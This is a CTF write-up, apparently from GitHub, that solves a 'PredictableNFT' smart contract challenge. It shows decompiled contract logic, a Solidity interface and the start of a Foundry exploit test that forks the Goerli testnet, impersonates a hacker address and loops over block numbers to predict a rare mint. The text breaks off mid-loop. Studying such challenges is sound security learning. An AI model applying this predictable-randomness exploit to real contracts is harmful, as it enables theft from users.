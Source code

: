 ```js
    }
} else {
    v0 = v3 = 3;
}
_tokens[_id] = v0;
```

- So I have written solutions in `brownie` & `foundry`. 

# Foundry
Let's see the `foundry` one first. To make things easy I used an `interfce` to work with the deployed contract since we don't have the `abi` but we do know the functions.Here is the `interface`. 
- `INFT.sol`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

interface INFT {
    function mint() external payable;

    function tokens(uint256 _id) external view returns (uint256);

    function id() external view returns (uint256);
}
```
- Simple basic `interface` nothing fancy about this. Now let's see the solution.
- `Hack.t.sol`
```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/INFT.sol";
import "forge-std/console.sol";

contract PredictableNFTTest is Test {
    INFT nft;

    address hacker = address(0x1337);

    function setUp() public {
        vm.createSelectFork(
            "https://goerli.infura.io/v3/<api_key>"
        );
        vm.deal(hacker, 1 ether);
        nft = INFT(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);
    }

    function test() public {
        vm.startPrank(hacker);
        uint mintedId;
        uint currentBlockNum = block.number;

        // console.log(msg.sender);
        // console.log(address(hacker));

        mintedId = nft.id();
        // console.log(mintedId);

        // Mint a Superior one, and do it within the next 100 blocks.
        for (uint i = 0; i < 100; i++) {
            vm.roll(currentBlockNum);
```
